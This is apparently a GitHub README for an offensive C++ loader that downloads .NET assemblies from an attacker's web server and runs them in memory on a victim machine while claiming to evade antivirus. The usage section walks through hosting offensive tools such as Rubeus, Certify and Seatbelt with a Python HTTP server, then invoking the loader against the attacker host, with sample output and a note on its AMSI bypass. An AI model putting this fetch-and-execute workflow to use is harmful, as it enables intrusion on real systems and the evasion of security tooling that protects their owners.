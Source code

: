 ## AxiomDumper

C++ tool load and execute assemblies in-memory, without triggering AV/EDR alerts.

![](screens/assembly-1.png)

## Usage

Compile in release mode

On your attack box, host your assemblies on a web server:
```bash
$ ls -la /tmp/Assemblies
total 1244
drwxrwx--- 2 root root   4096 Mar  7 13:46 .
drwxrwxrwt 1 root root   4096 Mar  7 13:27 ..
-rw-r----- 1 root root 178688 Mar  7 13:46 Certify.exe
-rw-r----- 1 root root 466432 Mar  7 13:27 Rubeus.exe
-rw-r----- 1 root root 608256 Mar  7 13:27 Seatbelt.exe
-rw-r----- 1 root root   4608 Mar  7 13:27 TestAssembly.exe

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

On the victim box, run the loader, specifying the following arguments:
- argv[1] : attack box's HTTP host
- argv[2] : HTTP path to the assembly
- argv[2+X] : Assembly's argument 1
- argv[2+X+1] : Assembly's argument 2
- and so on ...

For instance :
```powershell
PS> .\ExecAssembly.exe 192.168.57.1 /Assemblies/Seatbelt.exe       AntiVirus
           ^                ^                  ^                       ^
      /          \     /          \ /                      \ /                  \
         ProgName       HTTP Host        Assembly path         Seatbelt's arg1

[+] InitMetaHost success
[+] InitRuntime success
[+] Runtime is loadable
[+] InitInterface success
[+] Runtime started
[+] Opened Default Domain
[+] Interface opened on Default Domain
[+] InitAssemblyMemory success
[+] Assembly loaded
[+] Assembly's entry point parsed
[+] Invocation success


                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.2.2         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe

```
## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.

## Notes

This seems to bypass all AVs.
However, this is not true for EDRs. Behevioural analysis will trigger alerts on good EDRs depending on what you are doing, even directly upon loading, as this program does not implement any evasion technique apart from AMSI bypass.

